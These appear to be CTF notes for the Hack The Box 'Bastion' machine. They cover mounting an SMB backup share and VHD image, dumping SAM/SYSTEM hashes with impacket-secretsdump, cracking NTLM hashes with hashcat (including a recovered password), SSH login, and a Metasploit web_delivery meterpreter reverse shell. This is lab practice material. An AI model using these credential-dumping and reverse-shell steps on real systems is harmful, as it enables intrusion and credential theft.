 - We find a full windows directory backup of `L4mpje`user in `Backups`SMB share
- Cannot download it as the file is too big (5.4 GBs), so let's mount it using :
	- `sudo mkdir /mnt/Bastion`
	- `sudo mount -t cifs -o username=anonymous //10.10.10.134/Backups /mnt/Bastion/`
- Then we can `guestmount`the `9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd`file:
	- The **guestmount** program can be **used to mount virtual machine filesystems and other disk images on the host**
	- `sudo guestmount -a /mnt/Bastion/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd -i /mnt/vhd`

# Dumping the SAM and SYSTEM file
---
- Now we have full access to `C:\Windows\System32\config`, s**o we can copy `SYSTEM`and `SAM`file**
	- `cp C:\Windows\System32\config\SYSTEM .`
	- `cp C:\Windows\System32\config\SAM .`
- Then just **dump** the hashes using `secretsdump`**:
	- `impacket-secretsdump -sam SAM -system SYSTEM LOCAL`
	- ==Note :- We might also need the `SECURITY`file==
		- ![[Pasted image 20250421114659.png]]
- **Crack the NTLM hashes** using `hashcat`
	- ![[Pasted image 20250421114827.png]]
	- Note:- **Since Administrator never logged in, its password is empty**
	- `L4mpje`: `bureaulampje`
# Login using SSH
---
- We can login using ssh as `L4mpje`user:
	- `ssh L4mpje@10.10.10.134`
	- ![[Pasted image 20250421115011.png]]

# Get meterpreter shell
---
- Get meterpreter shell using `web_delivery`
	- `set payload windows/x64/meterpreter/reverse_tcp`
		- ![[Pasted image 20250421115817.png]]
	- ![[Pasted image 20250421115839.png]]
	